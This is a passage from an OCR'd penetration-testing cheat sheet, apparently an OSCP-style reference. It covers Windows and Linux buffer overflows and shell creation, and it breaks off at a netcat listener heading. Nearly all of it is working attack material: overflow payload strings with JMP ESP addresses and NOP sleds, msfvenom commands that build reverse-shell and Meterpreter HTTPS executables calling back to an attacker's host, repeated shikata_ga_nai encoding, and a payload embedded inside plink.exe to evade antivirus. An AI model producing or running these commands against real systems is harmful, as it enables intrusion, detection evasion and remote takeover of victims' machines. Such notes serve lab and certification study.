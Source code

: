     -   Final Payload with NOP slide  
   
            buffer="A"*2606 + "\x8f\x35\x4a\x5f" + "\x90" * 8 + shellcode
 
    -   Create a PE Reverse Shell  
        msfvenom -p windows/shell\_reverse\_tcp LHOST=$ip LPORT=4444
        -f  
        exe -o shell\_reverse.exe
 
    -   Create a PE Reverse Shell and Encode 9 times with
        Shikata\_ga\_nai  
        msfvenom -p windows/shell\_reverse\_tcp LHOST=$ip LPORT=4444
        -f  
        exe -e x86/shikata\_ga\_nai -i 9 -o
        shell\_reverse\_msf\_encoded.exe
 
    -   Create a PE reverse shell and embed it into an existing
        executable  
        msfvenom -p windows/shell\_reverse\_tcp LHOST=$ip LPORT=4444 -f
        exe -e x86/shikata\_ga\_nai -i 9 -x
        /usr/share/windows-binaries/plink.exe -o
        shell\_reverse\_msf\_encoded\_embedded.exe
 
    -   Create a PE Reverse HTTPS shell  
        msfvenom -p windows/meterpreter/reverse\_https LHOST=$ip
        LPORT=443 -f exe -o met\_https\_reverse.exe
 
-   Linux Buffer Overflows
 
    -   Run Evans Debugger against an app  
        edb --run /usr/games/crossfire/bin/crossfire
 
    -   ESP register points toward the end of our CBuffer  
        add eax,12  
        jmp eax  
        83C00C add eax,byte +0xc  
        FFE0 jmp eax
 
    -   Check for “Bad Characters” Process of elimination - Run multiple
        times 0x00 - 0xFF
 
    -   Find JMP ESP address  
        "\\x97\\x45\\x13\\x08" \# Found at Address 08134597
 
    -   crash = "\\x41" \* 4368 + "\\x97\\x45\\x13\\x08" +
        "\\x83\\xc0\\x0c\\xff\\xe0\\x90\\x90"
 
    -   msfvenom -p linux/x86/shell\_bind\_tcp LPORT=4444 -f c -b
        "\\x00\\x0a\\x0d\\x20" –e x86/shikata\_ga\_nai
 
    -   Connect to the shell with netcat:  
        nc -v $ip 4444
       
Shells
===================================================================================================================================
 
-   Netcat Shell Listener  
 